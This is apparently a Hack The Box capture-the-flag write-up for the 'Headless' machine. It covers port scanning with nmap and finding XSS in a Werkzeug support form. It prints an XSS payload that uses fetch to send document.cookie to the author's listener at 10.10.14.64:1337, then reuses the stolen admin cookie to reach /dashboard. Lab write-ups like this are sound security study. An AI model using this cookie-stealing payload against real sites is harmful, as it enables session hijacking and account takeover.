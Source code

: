 # Headless
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/539cf778-31bc-4262-8da5-4bd3703218c7)


## Lessons Learned:
- Identifying XSS vulnerability.
- Steal admin cookie.
- 

## STEPS:
> PORT SCANNING

```
┌──(vreshco㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.8 --min-rate 1000
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-25 00:10 PDT
Nmap scan report for 10.10.11.8
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Mon, 25 Mar 2024 07:08:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=3/25%Time=6601238F%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2007:08:09\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:02799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zfs;
SF:\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
SF:lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20
SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construction
SF:</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body
SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20
SF:'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20displ
SF:ay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justify-c
SF:ontent:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ali
SF:gn-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20h
SF:eight:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x200,\
SF:x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYPE\x
SF:20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\
SF:x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respons
SF:e</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version
SF:\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20
SF:code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20u
SF:nsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.08 seconds
```

1. Based from the nmap results, we identified that the machine runs a web application at port 5000 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/749cf208-f661-4e93-a089-5632c00b64c9)


2. Long story short, after scanning for other subdomains, endpoints, or directories, it resulting to none interesting endpoint.

```
Got 2 results:
- dashboard (inaccessible, probably need admin role).
- support.
```

3. Hence our interest is only at `/support` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b83bc32-6e57-4ea7-9785-ddb8c7da02e4)


4. What could be interesting is the **message** section.
5. And noticed at the previous nmap results, there's a cookie header named `is_admin` with a set cookie.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6c9ebcc0-5dd2-44cf-8836-77d3cc31b7d9)


6. This could be a hint that the initial exploitation is client-side.
7. Let's try with simple XSS payload to validate whether the **message** textbox is indeed vulnerable with XSS.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a26b02f-6a76-4c16-a420-3a0074e6dddf)


8. Interesting, it detects `<script>` tag usage then, let's use HTML entities.

> RESULT of using <img src=x onerror=alert('1')>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/09d37dd9-00dc-4215-9e16-90df99810102)


9. Seems we still got the warning.
10. Another interest to identify XSS vuln is to test the request header. The most common headers that is injectable with XSS are `referer` and `user-agent`.
11. But before testing that, let's try to test for the last time whether:

```
- It just gave us a warning message everytime it detects <script> tag usage or html entities, and still execute the code but not alert.
- Or it really does block the execution of any XSS payload.
```

12. Let's try to manipulate the message with not URL encoded XSS payload, for the last check I drop the simple cookie stealing payload.

```js
<img src=err onerror=fetch('http://10.10.14.64:1337/'+document.cookie);>
```

13. Boot up a python server on port 1337 then send the request.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4724e8f-244a-41ae-997e-331e65fb5123)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/13b00aad-4507-4445-bd41-6fbf1f45aedc)


14. We got the admin cookie! As you can see, the cookie value is different than ours, hence it's really is the admin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/765b04d7-6daf-4c37-9e04-8e66f987339f)


15. Change the cookie value to the admin cookie then access `/dashboard` endpoint.

> It is accessible now.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3e2a4d4a-7f8d-4c6f-a787-328585792cf5)


16. Great!


 
